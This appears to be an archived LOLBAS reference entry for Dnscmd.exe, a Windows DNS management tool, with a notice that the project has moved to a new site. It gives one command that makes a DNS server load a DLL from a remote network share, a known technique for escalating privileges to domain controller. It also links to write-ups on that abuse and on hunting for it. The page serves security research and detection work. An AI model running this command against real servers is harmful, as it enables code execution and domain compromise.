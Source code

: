 # UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## Dnscmd.exe

* Functions: Execute

```
dnscmd.exe dc1.lab.int /config /serverlevelplugindll \\192.168.0.149\dll\wtf.dll
```

Acknowledgements:
* Shay Ber - ?   
* Dimitrios Slamaris - @dim0x69    
* Nikhil SamratAshok Mittal - @nikhil_mitt   

Code sample:
* 

Resources:
* https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83
* https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html
* https://github.com/dim0x69/dns-exe-persistance/tree/master/dns-plugindll-vcpp
* https://twitter.com/Hexacorn/status/994000792628719618
* http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html

Full path:
```
c:\windows\system32\Dnscmd.exe
c:\windows\sysWOW64\Dnscmd.exe
```

Notes:
Used on Windows servers for DNS management


Detection:


 
